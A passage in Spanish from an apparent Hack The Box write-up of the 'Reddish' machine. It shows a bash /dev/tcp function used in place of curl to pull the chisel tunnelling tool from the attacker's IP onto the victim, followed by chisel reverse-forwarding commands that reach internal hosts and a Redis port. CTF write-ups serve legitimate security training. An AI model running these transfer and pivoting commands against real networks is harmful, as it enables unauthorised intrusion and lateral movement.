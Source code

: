 ```bash
  PORT=${server//*:}
  [[ x"${HOST}" == x"${PORT}" ]] && PORT=80

  exec 3<>/dev/tcp/${HOST}/$PORT
  echo -en "GET ${DOC} HTTP/1.0\r\nHost: ${HOST}\r\n\r\n" >&3
  (while read line; do
   [[ "$line" == $'\r' ]] && break
  done && cat) <&3
  exec 3>&-
}

```
La manera de uso seria:
```bash
__curl http://10.10.14.11/chisel > chisel
```
Teniendo el **chisel** en ambas máquinas lo ejecutaremos como **root** en nuestra máquina:
```bash
./chisel server 10.10.14.11 --reverse -p 1234
```
Y en la máquina victima:
```bash
./chisel client 10.10.14.11:1234 R:80:172.19.0.4:80 R:6379:172.19.0.2:6379
```
O podriamos poner solo **R:socks** y jugar con **proxychains** pero yo lo haré de la otra manera. Con esto conseguimos que nuestro puerto 80 se convierta en el 80 de la 172.19.0.4 y nuestro puerto 6379 en el de la 172.19.0.2

## Enumeración Puerto 80
En el código HTML de la web descubrimos unas rutas un tanto extrañas.
![](/assets/images/htb-writeup-reddish/html_hints.png)
